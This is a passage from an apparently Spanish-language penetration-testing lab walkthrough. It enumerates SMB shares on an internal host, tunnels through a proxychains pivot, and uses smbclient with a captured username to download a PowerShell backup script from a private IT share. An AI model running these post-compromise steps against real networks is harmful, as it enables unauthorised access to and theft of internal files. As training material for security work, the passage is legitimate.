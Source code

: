 

```r
cat 172.16.8.3.json 
{
    "Department Shares": {
        "IT/Private/Development/SQL Express Backup.ps1": {
            "atime_epoch": "2022-06-01 14:34:16",
            "ctime_epoch": "2022-06-01 14:34:16",
            "mtime_epoch": "2022-06-01 14:35:16",
            "size": "3.91 KB"
        }
    },
    "IPC$": {
        "323a2fd620dcf3e3": {
            "atime_epoch": "1600-12-31 19:03:58",
            "ctime_epoch": "1600-12-31 19:03:58",
            "mtime_epoch": "1600-12-31 19:03:58",
            "size": "3 Bytes"
<SNIP>
```

El archivo `SQL Express Backup.ps1` en el share privado de IT parece muy interesante. Vamos a descargarlo usando `smbclient`. Primero, necesitamos conectarnos.



```r
proxychains smbclient -U ssmalls '//172.16.8.3/Department Shares' 

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.3:445-<><>-OK
Enter WORKGROUP\ssmalls's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  1 14:34:06 2022
  ..                                  D        0  Wed Jun  1 14:34:06 2022
  Accounting                          D        0  Wed Jun  1 14:34:08 2022
  Executives                          D        0  Wed Jun  1 14:34:04 2022
  Finance                             D        0  Wed Jun  1 14:34:00 2022
  HR                                  D        0  Wed Jun  1 14:33:48 2022
  IT                                  D        0  Wed Jun  1 14:33:42 2022
  Marketing                           D        0  Wed Jun  1 14:33:56 2022
  R&D                                 D        0  Wed Jun  1 14:33:52 2022

		10328063 blocks of size 4096. 8177952 blocks available
```

Luego podemos navegar al share `Development`.



```r
smb: \IT\Private\> cd Development\
smb: \IT\Private\Development\> ls
  .                                   D        0  Wed Jun  1 14:34:17 2022
  ..                                  D        0  Wed Jun  1 14:34:17 2022
  SQL Express Backup.ps1              A     4001  Wed Jun  1 14:34:15 2022

		10328063 blocks of size 4096. 8177952 blocks available
smb: \IT\Private\Development\> get SQL Express Backup.ps1 
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \IT\Private\Development\SQL
smb: \IT\Private\Development\> get "SQL Express Backup.ps1" 
getting file \IT\Private\Development\SQL Express Backup.ps1 of size 4001 as SQL Express Backup.ps1 (8.7 KiloBytes/sec) (average 8.7 KiloBytes/sec)
```
